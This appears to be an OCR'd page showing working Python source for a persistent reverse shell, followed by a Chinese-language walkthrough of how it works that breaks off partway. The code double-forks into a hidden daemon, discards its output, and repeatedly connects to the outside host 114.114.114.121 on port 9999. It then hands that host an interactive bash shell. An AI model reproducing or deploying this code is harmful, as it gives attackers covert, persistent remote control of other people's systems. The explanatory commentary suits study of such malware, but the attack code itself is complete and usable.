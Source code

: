 	os.chdir("/")  
	os.setsid()  
	os.umask(0)  
	drgpid = os.fork()  
	if drgpid > 0:  
	        sys.exit(0)

	while 1:  
	        try:  
	                sys.stdout.flush()  
	                sys.stderr.flush()  
	                fdreg = open("/dev/null", "w")  
	                sys.stdout = fdreg  
	                sys.stderr = fdreg  
	                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
	                sdregs.connect(("114.114.114.121",9999))  
	                os.dup2(sdregs.fileno(),0)  
	                os.dup2(sdregs.fileno(),1)  
	                os.dup2(sdregs.fileno(),2)  
	                p=subprocess.call(["/bin/bash","-i"])  
	                sdregs.close()  
	        except Exception:  
	                pass  
	        time.sleep(2)

**这个 Python 脚本文件是一个反弹 shell 程序，具有后台运行的功能。**

**分析内容**

1. **导入模块**

    * 导入了 `socket`​、`subprocess`​、`os`​、`sys`​ 和 `time`​ 模块。
    * 这些模块分别用于创建网络连接、执行系统命令、进行系统操作、处理系统参数和控制程序延迟。
2. **第一步 fork 进程**

    pidrg = os.fork()  
    if pidrg > 0:
    sys.exit(0)

    * ​`os.fork()`​ 创建一个子进程。
    * 如果 `pidrg`​ 大于 0，则表示这是父进程，父进程会退出。
    * 子进程继续执行后续代码。
3. **切换工作目录和会话**

    os.chdir("/")  
    os.setsid()  
    os.umask(0) drgpid = os.fork()  
    if drgpid > 0:
    sys.exit(0)

    * ​`os.chdir("/")`​ 将当前工作目录更改为根目录 `/`​。
    * ​`os.setsid()`​ 创建一个新的会话，并使子进程成为新会话的领导进程。
    * ​`os.umask(0)`​ 设置文件创建掩码为 0。
    * 再次 `os.fork()`​ 创建一个新的子进程。
    * 如果 `drgpid`​ 大于 0，则父进程退出。最终的子进程继续运行，成为守护进程。
4. **主循环**
